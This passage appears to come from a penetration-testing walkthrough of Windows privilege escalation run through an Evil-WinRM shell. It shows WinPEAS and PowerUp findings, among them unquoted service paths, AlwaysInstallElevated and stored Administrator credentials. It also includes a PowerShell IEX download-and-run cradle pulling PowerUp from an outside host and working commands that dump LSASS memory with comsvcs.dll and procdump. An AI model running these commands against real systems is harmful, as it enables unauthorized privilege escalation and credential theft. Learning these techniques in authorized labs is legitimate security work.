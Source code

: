 ```powershell
     |          ((#######((                 |
     |            ((####(                   |
     =========================================
     ADVISORY: WinPEAS - Windows Privilege Escalation Awesome Scripts

[+] Checking Unquoted Service Paths
    FakeAntivirus: C:\Program Files\Antivirus Software\Engine\av.exe
    BackupManager: C:\Program Files\Backup Manager\Service\backup.exe
    RemoteSupportAgent: C:\Program Files (x86)\Remote Support Tool\Agent\agent.exe

[+] Checking AlwaysInstallElevated
    HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1
    HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1
    [!] Both values are 1 - VULNERABLE!

[+] Checking Stored Credentials
    Currently stored credentials:
    Target: WIN2019-SRV
    UserName: Administrator
```

#### Using PowerUp for Privilege Escalation

```powershell
# Import and run PowerUp
*Evil-WinRM* PS C:\Temp> IEX(New-Object Net.WebClient).downloadString('http://192.168.148.99:8000/PowerUp.ps1')
*Evil-WinRM* PS C:\Temp> Invoke-AllChecks

[*] Running Invoke-AllChecks

[*] Checking for unquoted service paths...
ServiceName    : FakeAntivirus
Path           : C:\Program Files\Antivirus Software\Engine\av.exe
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -ServiceName 'FakeAntivirus' -Path 'C:\Program Files\Antivirus.exe'

[*] Checking for AlwaysInstallElevated registry key...
AbuseFunction  : Write-UserAddMSI
```

### Living Off the Land Techniques

#### LSASS Dump Without External Tools

```powershell
# Method 1: Task Manager (GUI only)
# Right-click lsass.exe → Create dump file

# Method 2: Comsvcs.dll (Native Windows)
*Evil-WinRM* PS C:\Temp> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1473      29    12436      58412       0.84    656   0 lsass

*Evil-WinRM* PS C:\Temp> rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 656 C:\Temp\lsass.dmp full

# Method 3: Using ProcDump (Signed by Microsoft)
*Evil-WinRM* PS C:\Temp> .\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
